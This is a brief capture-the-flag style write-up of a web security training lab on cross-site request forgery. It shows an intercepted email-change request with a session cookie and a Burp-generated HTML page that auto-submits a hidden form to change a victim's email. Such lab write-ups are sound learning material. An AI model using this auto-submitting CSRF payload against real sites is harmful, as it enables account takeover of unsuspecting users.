 # Lab: CSRF vulnerability with no defenses

- After logging with given credentials, I can see a relevant function of `chaning an email`.

![](Vulnerabilities/CSRF/img/lab-1-1.png)

- The application is validating user request based on `session` cookie.
- The only known `POST` parameter `email` is known to the attacker. 

```
POST /my-account/change-email HTTP/1.1
Host: acdd1f0c1f9a3df7c0360f220049004e.web-security-academy.net
Cookie: session=M5b2Inj1Db9rvJrTDLw3Y3bAgiplHK4Y
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: https://acdd1f0c1f9a3df7c0360f220049004e.web-security-academy.net
Referer: https://acdd1f0c1f9a3df7c0360f220049004e.web-security-academy.net/my-account
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

email=root%40nehal.rocks
```

- `CSRF` attack might be possible in this case.
- Exploit HTML - 

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acdd1f0c1f9a3df7c0360f220049004e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="root&#64;nehal&#46;hacks" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- The above exploit changes a user's email to `root@nehal.hacks`.